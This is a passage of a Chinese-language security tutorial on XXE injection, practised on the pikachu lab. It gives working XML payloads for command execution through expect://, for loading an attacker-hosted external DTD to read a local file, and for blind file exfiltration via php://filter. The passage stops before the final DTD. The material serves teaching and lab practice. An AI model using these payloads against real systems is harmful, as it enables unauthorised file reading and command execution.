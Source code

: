 
![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230623152222175-1402531883.png)  
如图所示，代表了8081端口没有开放，这样也是可以探测端口开放情况。  
我们也可以结合rce进行实体注入，但是这样有限制条件，该情况是在安装expect扩展的PHP环境里执行系统命令

##### 代码如下：

    <?xml version = "1.0"?>
    <!DOCTYPE ANY [
    <!ENTITY xxe SYSTEM "expect://id" >
    ]>
    <x>&xxe;</x>
    

如果网站过滤了file协议或者你想实现自定义的攻击，那么就需要引入外部实体进行攻击了

##### 代码如下：

    <?xml version="1.0" encoding="UTF-8" ?>
    <!DOCTYPE test [
    <!ENTITY % file SYSTEM "http://127.0.0.1:80/evil2.dtd">
    %file;
    ]>
    <x>&send;</x>
    

这段代码是在被攻击者的搜索框上面输入，而调用的地址则是攻击者的服务器上的evil2.dtd文件，攻击者的evil2.dtd文件则写上如下代码

##### 代码：

    <!ENTITY send SYSTEM "file://d:/1.txt">
    

当访问攻击者的dtd文件时，攻击者的文件指向了D盘的1.txt文件，使其读取  
![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230623163247894-1052138390.png)  
当然这种方法是有限制条件，也就是没有禁用外部实体，是不是有点像文件包含的远程包含。  
  
当我们进行实战的时候，一般都是不会有回显，因为他调用就直接调用使用了，没有必要进行回显，当遇上没有回显的情况，我们应该怎么办？还是用pikachu靶场进行演示，把回显代码进行删除  
![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230623164434505-506412452.png)  
这样的话，我们可以用刚才读文件的代码进行读取，看一下  
![](https://img2023.cnblogs.com/blog/2509712/202306/2509712-20230623164753898-166610306.png)  
无论输入什么，都是这个样子，也不知道是否执行，遇到这种情况，我们也是可以进行读取的

##### 代码如下

    <?xml version="1.0"?>
    <!DOCTYPE test [
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/1.txt">
    <!ENTITY % dtd SYSTEM "http://127.0.0.1:80/evil2.dtd">
    %dtd;
    %send;
    ]>
    

##### evil2.dtd中的内容如下：
